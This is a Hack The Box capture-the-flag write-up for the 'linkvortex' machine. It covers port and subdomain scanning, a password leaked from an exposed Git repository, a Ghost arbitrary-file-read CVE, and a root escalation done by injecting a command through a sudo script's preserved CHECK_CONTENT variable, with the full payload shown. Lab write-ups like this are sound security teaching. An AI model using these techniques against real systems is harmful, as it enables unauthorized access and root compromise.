 ```yaml
---
layout: post
title: HTB - linkvortex
date: 2024-12-24 14:47 -0400
---
```


Linkvortex is a easy difficulty box. We start by discovering a subdomain hosting a Git repository. It gives us a password and the framework running on the main site. We then use a know cve to read a configuration file getting our user shell. For the root shell we abuse a vulnerability in a sudo script.

# nmap
```bash
~/workspace/projects/htb/linkvortex » nmap -p- --min-rate 1024 $(cat ip.txt)                      shafou@shafou
Starting Nmap 7.93 ( https://nmap.org ) at 2024-12-24 13:26 -04
Nmap scan report for linkvortex.htb (10.10.11.47)
Host is up (0.16s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 71.36 seconds
```

# subdomain bruteforce
```bash
~/workspace/projects/htb/linkvortex » ffuf -u http://$(cat ip.txt) -H 'Host: FUZZ.linkvortex.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -ac

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.47
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.linkvortex.htb
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 50
 :: Matcher          : Response status: all
________________________________________________

[Status: 200, Size: 2538, Words: 670, Lines: 116, Duration: 161ms]
| URL | http://10.10.11.47
    * FUZZ: dev

[Status: 400, Size: 226, Words: 20, Lines: 9, Duration: 160ms]
| URL | http://10.10.11.47
    * FUZZ: #www

[Status: 400, Size: 226, Words: 20, Lines: 9, Duration: 158ms]
| URL | http://10.10.11.47
    * FUZZ: #mail

:: Progress: [19966/19966] :: Job [1/1] :: 97 req/sec :: Duration: [0:03:26] :: Errors: 0 ::
```

# endpoint bruteforce
- .git found

# password found on git
- OctopiFociPilfer45

# looking at ghost docs
- login screen at /ghost/
- have to deduce the email `admin@linkvortex.htb`, more of a convention than a deduction

# ghost version
- Version: 5.58.0
- screen shot

# vulnerable to
- CVE-2023-40028 arbitrary file read
- poc on github
- by looking at the dockerfile we get the path of the config /var/lib/ghost/config.production.json
- that has the ssh login password for the bob user

# user
`user.txt - 33c3c***************************`

# root
sudo -l shows a script we can use
it also has the option `env_keep+=CHECK_CONTENT`
that means sudo will keep CHECK_CONTENT if we set it

the vulnerability on the script is on:
```bash
if $CHECK_CONTENT;then
```
whatever we put on $CHECK_CONTENT runs as root.

To reach that we need a symlink that ends with .png and we can't use spaces because of the check on line 5:
```bash
bob@linkvortex:/tmp$ export CHECK_CONTENT='echo 123'; sudo /usr/bin/bash /opt/ghost/clean_symlink.sh bla.png
/opt/ghost/clean_symlink.sh: line 5: [: echo: binary operator expected
```

Final payload:
```bash
ln -s bla.png ble.png; echo 'cat /root/root.txt' > a.sh; chmod +x ./a.sh; export CHECK_CONTENT='./a.sh'; sudo /usr/bin/bash /opt/ghost/clean_symlink.sh ble.png
```

# root
`root.txt - 3d9e9***************************`
